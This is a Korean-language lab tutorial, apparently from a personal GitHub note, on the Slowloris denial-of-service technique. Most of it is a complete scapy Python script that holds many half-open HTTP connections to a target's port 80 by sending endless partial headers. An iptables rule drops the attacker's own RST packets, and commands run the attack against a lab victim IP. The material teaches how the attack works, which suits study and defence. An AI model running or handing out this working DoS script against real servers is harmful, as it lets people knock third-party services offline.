




# slowloris 공격 기법

DoS 공격 기법 중 하나  
요청 헤더의 끝이 개행문자로 끝나는 요청의 구조를 이용한 공격  
https://crefunx.tistory.com/search/slowloris

요청 헤더의 끝을 나타내는 개행문자를 서버로 전달하지 않고, 헤더를 계속해서 전달해, 연결을 유지시키는 공격 기법

```bash
# slowloris 공격을 위한 파이썬 파일을 작성한다
vim slowloris.py
```

slowloris.py

```python
#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)

    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))
```

```bash
# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```



### 희생자 PC에서 80포트를 열어준다

```bash
# apache서버를 실행한다
service apache2 restart
```

```bash
# 실행권한을 준다
chmod 755 slowloris.py

# 50번 공격 실행 희생자(192.168.44.144)
./slowloris.py 192.168.44.144 50
```

kali#1(victim) 웹 브라우저를 열어 상태를 확인한다

> localhost/server-status



```bash
# wireshark 실행
wireshark
```




TCP 헤더가 증가 한 것을 볼 수 있다
